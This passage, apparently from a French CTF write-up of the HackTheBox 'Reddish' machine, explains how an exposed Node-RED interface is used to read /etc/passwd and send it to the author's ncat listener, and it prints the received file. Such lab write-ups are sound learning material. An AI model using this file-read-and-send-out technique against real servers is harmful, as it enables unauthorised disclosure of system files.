 C'est plutôt fun à utiliser et ça peut être une bonne introduction à ceux qui souhaitent s'initier à la programmation.  

Quoiqu'il en soit j'ai commencé à jouer avec cette interface qui m'était totalement inconnue et je suis par exemple parvenus à lire des fichiers présents sur le disque :  

![HackTheBox Reddish CTF Node-RED file disclosure](https://github.com/devl00p/blog/raw/master/images/htb/reddish/reddish_web.png)

Ici l'action consiste à lire un fichier. Pour cela on prend l'icône marron *file* dans la section *storage*, on la place dans le graphe puis on double clique pour entrer le path du fichier (*/etc/passwd* dans mon exemple).  

On le relie alors à une sortie de type *tcp* où l'on rentre l'hôte et le port, on clique sur le bouton rouge *Deploy* et on reçoit ce qu'on attendait :  

```plain
$ ncat -l -p 7777 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 10.10.10.94.
Ncat: Connection from 10.10.10.94:52718.
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
node:x:1000:1000::/home/node:/bin/bash
```
